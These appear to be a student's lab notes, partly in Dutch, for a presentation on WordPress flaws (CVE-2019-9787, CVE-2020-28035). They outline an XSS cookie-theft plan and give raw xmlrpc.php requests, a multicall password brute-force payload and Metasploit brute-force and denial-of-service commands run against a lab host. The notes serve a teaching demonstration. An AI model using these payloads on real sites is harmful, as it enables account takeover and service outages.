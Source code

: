 **Current choice**

Remote code execution on wordpress 2019 https://www.cvedetails.com/cve/CVE-2019-9787/ - SCORE 6.8 - COMPLEXITY: medium

    WordPress before 5.1.1 does not properly filter comment content, leading to Remote Code Execution by unauthenticated users in a default configuration. This occurs because CSRF protection is mishandled, and because Search Engine Optimization of A elements is performed incorrectly, leading to XSS. The XSS results in administrative access, which allows arbitrary changes to .php files. This is related to wp-admin/includes/ajax-actions.php and wp-includes/comment.php.

Needs wordpress before 5.1.1 https://wordpress.org/download/releases/#branch-50  
Use the 5.0.0 version

Host wordpress website, 
wordpress needs sql server
Create XSS javascript code that steals the cookie
Make admin look at comment
Inject cookie into server

https://www.youtube.com/watch?v=BfKK-pNmI6Y



**EXTRA** 

Wordpress bruteforce and ddos vulnerability 
/xmlrpc.php attack

        POST /xmlrpc.php HTTP/1.1
        Host: localhost
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
        Connection: close
        Content-Length: 85

        <methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

        POST /xmlrpc.php HTTP/1.1
        Host: localhost
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
        Connection: close
        Content-Length: 164

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>


Show functions: 

         <methodCall>
        <methodName>system.listMethods</methodName>
        </methodCall>



MULTICALL om meerdere tegelijkertijd te proberen , ookal showed het dan maar op als 1 try voor wordpress zelf
        
        <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>


https://www.cvedetails.com/cve/CVE-2020-28035/
https://www.cvedetails.com/cve/CVE-2020-28036/
https://www.youtube.com/watch?v=bZQ6vuFioZQ

Via xmlrpc can you proberen inloggen en meerdere passwords en logins proberen tegelijkertijd. 





Metsploit framework,
launch het metasploit framework en kies dan de juiste 2 modules

1   search wordpress_xmlrpx_login
2   search wordpress_xmlrpc_login
3   use auxiliary/scanner/http/wordpress_xmlrpc_login
4   search wordpress_xmlrpc_login
5   use auxiliary/scanner/http/wordpress_xmlrpc_login
6   set RHOSTS 192.168.1.60
7   set USER_FILE /home/osboxes/rcp.txt
8   set PASS_FILE /home/osboxes/rcpp.txt
9   run
10  exit
11  search cve:wp AND 5.0.0
12  search
13  search cve
14  clear
15  search
16  clear
17  search wordpress
18  use auxiliary/dos/http/wordpress_xmlrpc_dos
19  set RHOSTS 192.168.1.60
20  sset RPORT 80
21  set RPORT 80
22  run
23  set RLIMIT 10000000
24  run
25  use auxiliary/dos/http/wordpress_xmlrpc_dos
26  set RHOSTS 192.168.1.60
27  set RLIMIT 10000000
28  set RPORT 80
29  run
30  use auxiliary/dos/http/wordpress_xmlrpc_dos
31  set RHOSTS 192.168.1.60
32  set RPORT 80
33  set RLIMIT 10000000
34  set THREADS 3
35  ?
36  show options
37  exit
38  history



Gebruikt `top` op de target server voor cpu usage te zien bij DOS attack  



Formulier 

        CVE-2020-28035 https://www.cvedetails.com/cve/CVE-2020-28035/

        Wordpress  voor de versie 5.5.2 maakt gebruik van XML-RPC, wat een potentieel beveiligingsrisico met zich meebrengt. Door een grote hoeveelheid HTTP-verzoeken naar de XML-RPC-endpoint te sturen, kunnen aanvallers een denial-of-service-aanval (DOS) uitvoeren.

        Bovendien kan deze methode door aanvallers worden gebruikt om op een minder opvallende manier gebruikersnamen en wachtwoorden te achterhalen. Door honderden pogingen in één enkel XML-RPC-verzoek te verbergen, kan een aanvaller brute force-aanvallen uitvoeren om toegang te krijgen tot beveiligde gegevens.

        In onze presentatie zullen we beide kwetsbaarheden demonstreren: de DOS-aanval en de gain privileges aanval.